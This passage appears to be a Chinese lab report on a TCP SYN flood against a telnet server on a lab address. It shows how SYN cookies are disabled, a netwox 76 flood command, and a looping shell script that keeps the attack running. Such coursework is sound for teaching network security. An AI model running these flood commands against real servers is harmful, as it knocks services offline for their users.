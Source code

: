 ## 1.1 准备工作及相关命令

```shell
# 开启Server的telnet服务并查看telnet的运行状态
sudo /etc/init.d/openbsd-inetd restart
sudo netstat -a | grep telnet
# SYN cookie
sysctl net.ipv4.tcp_syncookies		# 查看SYN cookie状态
sysctl net.ipv4.tcp_syncookies=0	# 关闭SYN cookie
sysctl net.ipv4.tcp_syncookies=1	# 打开SYN cookie
# 查看网络状态
netstat -na
```

## 1.2 正常状态下的`telnet`连接

在客户机使用`telnet 172.17.0.3`连接服务机，并使用`Wireshark`截取报文（结果见`1.01.正常状态下的 telnet 连接.pcapng`）。

- 客户端成功连接服务器
  ![1.01.客户端成功连接服务器](https://raw.githubusercontent.com/BIIIANG/pic/main/202204111710979.png)
- 服务器的网络连接状态：已与客户端成功建立`TCP`连接
  ![1.02.服务器的网络连接状态：已与客户端成功建立TCP连接](https://raw.githubusercontent.com/BIIIANG/pic/main/202204111710073.png)
- 正常状态下的`TCP`连接的握手过程（前三行）
  ![1.03.正常状态下的TCP连接的握手过程](https://raw.githubusercontent.com/BIIIANG/pic/main/202204111711246.png)
- 正常状态下的服务机的`CPU`与内存占用
  ![1.0.1.CPU0](https://raw.githubusercontent.com/BIIIANG/pic/main/202204132103104.png)

## 1.3 使用`netwox`进行攻击

### 1.3.1 关闭`SYN cookie`

- 关闭服务机的`SYN cookie`：`sysctl net.ipv4.tcp_syncookies=0`

- 查看`netwox 76`工具的说明：`netwox 76 --help`
  ![1.2.1.查看netwox 76工具的说明](https://raw.githubusercontent.com/BIIIANG/pic/main/202204111734296.png)

- 攻击机使用`netwox`攻击服务机：`sudo netwox 76 -i 172.17.0.3 -p 23 -s raw`，观察到当发出一些请求后，攻击机被中断，`netwox`暂停
  ![1.2.2.使用netwox攻击服务机，当发出一些请求后，攻击机被中断](https://raw.githubusercontent.com/BIIIANG/pic/main/202204111734211.png)

- 为了确保`netwox`持续工作，编写以下脚本文件`syn_netwox.sh`，将错误输出丢弃

  ```shell
  #!/bin/bash
  
  while [ 1 ]
  do
      sudo netwox 76 -i 172.17.0.3 -p 23 -s raw > /dev/null
  done
  ```
